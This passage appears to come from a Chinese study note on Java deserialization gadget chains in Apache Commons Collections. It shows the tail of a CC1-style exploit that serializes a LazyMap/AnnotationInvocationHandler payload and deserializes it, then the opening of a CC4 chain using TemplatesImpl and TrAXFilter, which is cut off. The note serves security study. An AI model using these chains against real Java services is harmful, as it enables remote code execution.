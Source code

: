 ```java
        //获取AnnotationInvocationHandler类实例
        InvocationHandler h = (InvocationHandler) annotationInvocationdhdConstructor.newInstance(Override.class, lazyMap);//注解可以任意传只需过异常判断

        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class}, h);
        Object o = annotationInvocationdhdConstructor.newInstance(Override.class, mapProxy);

        //payload序列化写入文件，模拟网络传输
        FileOutputStream f = new FileOutputStream("payload.bin");
        ObjectOutputStream fout = new ObjectOutputStream(f);
        fout.writeObject(o);

        //2.服务端读取文件，反序列化，模拟网络传输
        FileInputStream fi = new FileInputStream("payload.bin");
        ObjectInputStream fin = new ObjectInputStream(fi);
        //服务端反序列化
        fin.readObject();
    }
}
```

在ysoserial中采用了不一样的执行方法

同样是从newTransformer的用法查找开始

![Untitled](attachments/CC链%20attachments/Untitled%2013.png)

可以用TrAXFilter类，但是没有反序列化接口，考虑和Runtime类似的方法

![Untitled](attachments/CC链%20attachments/Untitled%2014.png)

先实例化TrAXFilter类，到图中代码事实上已经代码执行了

## CC4-commons.collection4

```java
package org.cc.cc1;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.functors.ChainedTransformer;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CC4 {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
```